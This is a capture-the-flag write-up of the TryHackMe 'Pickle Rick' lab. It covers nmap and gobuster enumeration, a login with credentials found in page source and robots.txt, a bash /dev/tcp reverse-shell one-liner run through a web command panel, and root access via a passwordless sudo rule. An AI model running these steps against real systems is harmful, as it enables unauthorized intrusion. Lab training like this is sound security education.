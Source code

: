 # TryHackMe - Pickle Rick Writeup


[Link : https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Enumeration

First, let’s do an enumeration with the IP address of this machine. I’m gonna run Nmap [Netwok Mapper] to scan any open ports. I’m gonna run this command

```
nmap -sC -sV -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -oN := output in normal format

![2](2.png)

Nmap scan shows us. There are 2 ports open ssh and HTTP. First, I’m gonna check port 80 because not common for ssh to log in as anonymous. Let’s check it out.

Cool! we got this web page

![3](3.png)

This is the very first thing I’m gonna do. You always need to check the page source code maybe we can find something interesting. Well, yes we did.

![4](4.png)

In this page source. We can see the comment says `Note to self, remember username!`. We have a username. Unfortunately, we don’t know where to log in as this username.

Well, I’m gonna run gobuster. Gobuster is a tool to find the hidden directory on this website

```
gobuster dir -u http://<machine ip> -w /path/to/wordlist.txt -x php,.txt,.html
```

![5](5.png)

The scan result shows us the hidden directory called `login.php` with status code 200 and we also found `robots.txt`

Let’s take a look at the login.php and robots.txt

![6](6.png)

If you remember. In the beginning, we found the username. If you look closely at the robots.txt it looks like something, maybe it is the password. Let’s try it.

![7](7.png)

wow! it’s working. We can see on this page, we can run the command in that box. So, I’m gonna execute reverse shell on that to make an easy foothold.

![8](8.png)

## Foothold/Gaining Access

![9](9.png)

```bash
bash -c ‘bash -i >& /dev/tcp/<your ip>/<listening port> 0>&1’
```

![10](10.png)

First, what I like to do is run the `sudo -l` command to check sudo permission/capability.

![11](11.png)

After, we ran that command. It says “(ALL) NOPASSWD: ALL”. This says 
> ‘Hey dude! you can run sudo without a password at all and be free to use it’.

This happens because of not properly configure the user and root.

Now, Let’s try find the first ingredient Rick needs.

![12](12.png)

Ok. We just have the first ingredient. However, We need two more the ingredient. So, let’s try to see any user home directory exists. Look like the user `rick` exists. Let’s try to check it out.

![13](13.png)

## Privilege Escalation

As we know, This user `www-data` can run sudo without a password at all. This means we can be root by running the command sudo su.

![14](14.png)

WoW! We just solve this box with ease and gain a lot of knowledge.

## Conclusion

I’ve learned a lot today. This shows us how dangerous it is if you don’t configure something properly. In this case, the sudo command. However, An attacker can be root in your machine if they have a good and strong foothold. Well, before an attacker can access make sure you have to patch all of your weak systems. In this machine, the website can execute bash. This is bad and an attacker easily got the reverse shell.

This room so much fun and I hope you guys have fun and learn something new today.
